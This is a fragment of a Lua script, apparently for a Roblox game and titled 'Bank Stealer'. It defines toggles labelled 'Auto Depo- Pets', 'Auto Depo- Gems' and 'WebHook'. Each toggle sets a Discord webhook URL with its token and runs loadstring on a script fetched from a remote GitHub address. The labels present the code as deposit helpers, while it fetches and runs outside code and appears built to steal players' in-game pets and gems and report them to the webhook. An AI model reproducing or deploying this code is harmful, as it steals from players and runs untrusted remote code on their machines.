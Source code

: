 	Title = "Bank Stealer"

})

local B = Bank.Toggle({

	Text = "Auto Depo- Pets",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end,

	Enabled = false

})

local B = Bank.Toggle({

	Text = "Auto Depo- Gems",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end,

	Enabled = false

})

local B = Bank.Toggle({

	Text = "WebHook",

	Callback = function(Value)

		UserName = "WahOnTop"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end,
